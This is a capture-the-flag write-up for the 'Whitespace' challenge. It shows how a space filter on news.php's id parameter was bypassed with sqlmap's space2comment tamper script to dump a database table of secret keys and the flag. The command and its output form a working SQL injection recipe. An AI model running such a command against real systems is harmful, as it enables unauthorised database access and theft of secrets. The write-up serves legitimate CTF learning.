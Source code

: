 # Whitespace Writeup

>Flag: FNW_CTF{34sy_byp4ss_sql_1njection_f1lt3r_sp4c3}

First glance at the website:

![image](https://user-images.githubusercontent.com/80664686/117593090-237add80-b165-11eb-9607-b1559c3afe53.png)

## Tinkering around
The website had 3 main page: `index.php`, `price.php` and `contact.php`

In **price.php** and **contact.php** there's nothing special.

In the news part, when checking out a post, it goes to an URL:
> http://chall9.ctf.night-wolf.io/news.php?id=10

Hmm... that id part must have something.

After testing for a while, I found out that when input is `+`, `;` and ` `(space) it will prompt:

![image](https://user-images.githubusercontent.com/80664686/117595342-bff3ae80-b16a-11eb-8a24-feff8736247d.png)

This must be it, also I was hint for *SQLi*.

## Exploitation

Send this to `sqlmap` to run. Because of white space retriction, we can use tamper script `space2comment`

```fish
$ sqlmap -u chall9.ctf.night-wolf.io/news.php?id=1 --tamper=space2comment --batch --dump
```
Result:
```
...
Database: news_app
Table: secrets
[4 entries]
+-----------+--------------+-------------------------------------------------+
| secret_id | name         | value                                           |
+-----------+--------------+-------------------------------------------------+
| 1         | secret_key   | ZEwI6DHBIzKKU5D4gquM/A==                        |
| 2         | password_key | 3a8756aa44595874dc665429d209e43e                |
| 3         | token_key    | 28f27090594826e0915eecc2a06707e3fec41666        |
| 4         | flag         | FNW_CTF{34sy_byp4ss_sql_1njection_f1lt3r_sp4c3} |
+-----------+--------------+-------------------------------------------------+

...
```
🎉🎉🎉
[Go back](README.md)
